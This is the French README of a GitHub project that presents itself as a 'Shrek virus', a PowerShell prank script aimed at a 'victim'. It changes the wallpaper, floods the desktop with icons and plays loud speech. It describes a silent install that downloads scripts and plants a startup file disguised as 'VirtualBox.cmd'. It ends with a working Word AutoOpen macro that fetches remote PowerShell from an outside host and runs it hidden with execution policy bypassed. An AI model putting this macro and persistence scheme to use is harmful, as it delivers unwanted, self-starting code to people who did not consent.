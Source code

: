 # powershell-shrek-virus

# Fonctionnalités
- Modification du fond d'écran
- Ajout d'icônes Shrek sur le Bureau Windows
- Nom aléatoire des icônes Shrek
- Augmentation du volume de l'ordinateur
- Voix TTS
- Screen Melting


# Démonstration
![image](https://github.com/WolfAnto/powershell-shrek-virus/assets/73076854/7292f948-14b8-467a-99a3-69024c610a19)

# Prérequie
- Pour le bon fonctionnement du script Powershell, le nom du fichier ne doit pas être modifier !
- Windows à jours
- L'environnement Bureau de la victime ne doit pas etre sur OneDrive

# Installation
- Télécharger ce dépôt
```
git clone https://github.com/WolfAnto/powershell-shrek-virus/
Sinon via interface graphique
```
- Execution du script
```
Clique droit sur ShrekMenu.ps1 > Exécuter en Powershell
```


# Explication / Fonctionnement

Le script est un menu Powershell qui vous propose diverse options :
- Installation Silencieuse
- Mode Flagrant
- Seulement le fond d'écran
- Seulement les icônes
- Seulement la voix TTS
- Seulement la notification Windows
- Désinstallation du script sur la machine
- Quitter le script

### Installation Silencieuse
- Lors de l'éxécution de cette option, le script va télécharger un script Powershell et venir l'installer dans le répertoire "C:\Users\Public\Documents"
- Ensuite le script va télécharger un script CMD et l'installer dans "C:\Users\username\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\VirtualBox.cmd"
- Cela va permettre d'installer le script Powershell sur la machine mais aussi l'éxecuter lors du démarrage de l'ordinateur.


### Mode Flagrant
- Lors de l'éxécution de cette option, le script va s'éxécuter instentanément et il va définir un nouveau fond d'écran, créer un nombre prédéfinis d'icones sur le bureau avec un nom aléatoire, et faire une installation silencieuse.

### Seulement le fond d'écran
- Lors de l'éxécution de cette option, le script va uniquement changer le fond d'écran de l'ordinateur.

### Seulement les icônes
- Lors de l'éxécution de cette option, le script va vous demandez combien d'icônes souhaitez vous créer sur le Bureau Windows.

###  Seulement la voix TTS
- Lors de l'éxécution de cette option, le script va augmenter le volume de l'ordinateur au maximum et utiliser la fonction Text To Speach pour citez une phrase.

### Seulement la notification Windows
- Lors de l'éxécution de cette option, le script va utiliser une fonction Windows pour faire apparaitre une notification en bas de l'écran avec une phrase prédéfini.

### Désinstallation du script sur la machine
- Lors de l'éxécution de cette option, le script va supprimer les traces du script, changer le fond d'écran, supprimer les icônes du Bureau Windows, et ne plus s'éxecuter lors du démarrage

### Quitter
- Lors de l'éxécution de cette option, le script va se fermer.

# Modification
Si vous souhaitez changer le fond d'écran, dans le script Powershell ShrekMenu.ps1 :
- Convertir votre image servant de fond d'écran en code base64
- Aller à la ligne 72 et remplacer le code base64 par le votre

Si vous souhaitez changer l'icône, dans le script Powershell ShrekMenu.ps1 :
- Convertir votre image servant de fond d'écran en code base64
- Aller à la ligne 84 et remplacer le code base64 par le votre

# Execution dans Microsoft Word
Cliquez sur "Affichage" dans la barre de menu, puis sélectionnez "Macro" et "Afficher les macros".
![image](https://user-images.githubusercontent.com/73076854/229302792-6a42a8c6-ec6b-4414-8739-350b8d2471af.png)

Créer une macro au nom de "AutoOpen" et cliquer sur "Créer".
![image](https://user-images.githubusercontent.com/73076854/229302829-9fe69643-843f-4a45-b6e8-1746b3e586f5.png)

Une fenetre va apparaitre, remplacer le code par le suivant :
```
Sub AutoOpen()
    Dim objShell
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'https://antoningrepilloux.fr/ShrekVirus.ps1' -OutFile 'C:\Users\Public\Documents\ShrekVirus.ps1'"""
    objShell.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'https://antoningrepilloux.fr/VirtualBox.cmd' -OutFile '$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\VirtualBox.cmd'"""
    objShell.Run "powershell.exe -windowstyle hidden -executionpolicy bypass -file C:\Users\Public\Documents\ShrekVirus.ps1"
    Set objShell = Nothing

End Sub
```

Avant :
![image](https://user-images.githubusercontent.com/73076854/229302907-62297027-0b41-496f-b0e1-c90cdcf678f0.png)

Après :
![image](https://user-images.githubusercontent.com/73076854/229302921-ce845dd1-65f2-4891-babd-69e213ec4e15.png)

Enregistrer le code avec les touches CTRL + S, puis quitter la fenêtre.
Enregistrer le document Word avec les touches CTRL + S, puis quitter le document.

